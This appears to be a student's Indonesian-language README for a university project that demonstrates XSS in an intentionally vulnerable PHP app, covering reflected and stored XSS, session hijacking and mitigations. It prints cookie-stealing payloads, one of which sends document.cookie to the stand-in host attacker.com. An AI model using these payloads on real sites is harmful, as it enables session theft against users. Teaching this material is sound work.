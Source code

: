 # Pembuktian XSS (Cross-Site Scripting)

## 📋 Deskripsi
Repository ini berisi implementasi dan demonstrasi kerentanan XSS (Cross-Site Scripting) untuk tujuan edukasi keamanan siber. Proyek ini menunjukkan berbagai jenis serangan XSS dan cara mengeksploitasinya.

## ⚠️ Disclaimer
**PERINGATAN**: Kode dalam repository ini dibuat untuk tujuan edukasi dan penelitian keamanan siber. Penggunaan untuk tujuan yang tidak sah atau merugikan orang lain adalah **DILARANG** dan melanggar hukum.

## 🎯 Tujuan Pembelajaran
- Memahami konsep kerentanan XSS
- Mengetahui cara kerja serangan XSS
- Belajar mengidentifikasi celah keamanan dalam aplikasi web
- Memahami dampak dari serangan XSS

## 📁 Struktur File

### File Utama
- `index.php` - Halaman utama aplikasi
- `login.php` - Halaman login
- `register.php` - Halaman registrasi
- `config.php` - Konfigurasi database

### File Demonstrasi XSS
- `create_post.php` - Form pembuatan post (vulnerable)
- `view_post.php` - Halaman tampil post (target XSS)
- `add_comment.php` - Fitur komentar (vulnerable)
- `session-hijack.php` - Demonstrasi session hijacking

### File Utilitas
- `cookie-stealer.php` - Script untuk mencuri cookie
- `stolen_cookies.log` - Log cookie yang berhasil dicuri
- `logout.php` - Halaman logout

## 🔍 Jenis XSS yang Didemonstrasikan

### 1. Reflected XSS
Serangan XSS yang langsung direfleksikan pada response tanpa disimpan di server.

**Contoh payload:**
```javascript
<script>alert('XSS Vulnerability Found!')</script>
```

### 2. Stored XSS
Serangan XSS yang disimpan di server (biasanya di database) dan dieksekusi setiap kali halaman dimuat.

**Contoh payload:**
```javascript
<script>
document.location='http://attacker.com/cookie-stealer.php?cookie='+document.cookie
</script>
```

### 3. Session Hijacking
Demonstrasi pengambilan session cookie untuk mengakses akun korban.

**Contoh payload:**
```javascript
<script>
new Image().src="cookie-stealer.php?cookie="+document.cookie;
</script>
```

## 🚀 Cara Menjalankan

### Prasyarat
- XAMPP/WAMP/LAMP server
- PHP 7.4 atau lebih baru
- MySQL/MariaDB
- Web browser

### Langkah Instalasi
1. Clone repository ini ke folder htdocs
```bash
git clone [repository-url] pembuktian-xxs
```

2. Import database (jika ada file SQL)
3. Konfigurasi database di `config.php`
4. Jalankan XAMPP/WAMP
5. Akses melalui browser: `http://localhost/pembuktian-xxs/`

## 🧪 Skenario Testing

### Test 1: Basic XSS Alert
1. Buka halaman `create_post.php`
2. Masukkan payload: `<script>alert('XSS')</script>`
3. Submit form
4. Lihat apakah alert muncul

### Test 2: Cookie Stealing
1. Buka halaman yang vulnerable
2. Inject payload cookie stealer
3. Cek file `stolen_cookies.log`

### Test 3: Session Hijacking
1. Login sebagai user normal
2. Inject payload session hijack
3. Cek apakah session berhasil dicuri

## 📊 Hasil Demonstrasi

### Kerentanan yang Ditemukan
- [ ] Reflected XSS di parameter search
- [ ] Stored XSS di form komentar
- [ ] Session hijacking via cookie stealing
- [ ] DOM-based XSS

### Screenshot
*Tambahkan screenshot hasil testing di sini*

## 🛡️ Mitigasi XSS

### Input Validation
```php
// Sanitasi input
$input = htmlspecialchars($_POST['input'], ENT_QUOTES, 'UTF-8');
```

### Output Encoding
```php
// Encode output
echo htmlentities($data, ENT_QUOTES, 'UTF-8');
```

### Content Security Policy (CSP)
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'">
```

## 📚 Referensi
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [MDN Web Security](https://developer.mozilla.org/en-US/docs/Web/Security)
- [PortSwigger XSS Tutorial](https://portswigger.net/web-security/cross-site-scripting)

## 👨‍💻 Author
**Nama**: [Dede Syifa Sifriani]  
**NIM**: [312310372]  
**Mata Kuliah**: Keamanan Siber / Web Security  
**Institusi**: [Universitas Pelita Bangsa]

## 📄 License
Proyek ini dibuat untuk tujuan edukasi. Penggunaan harus mematuhi kode etik dan hukum yang berlaku.

---

**⚠️ INGAT**: Selalu gunakan pengetahuan keamanan siber untuk tujuan yang baik dan konstruktif. Ethical hacking is the way!
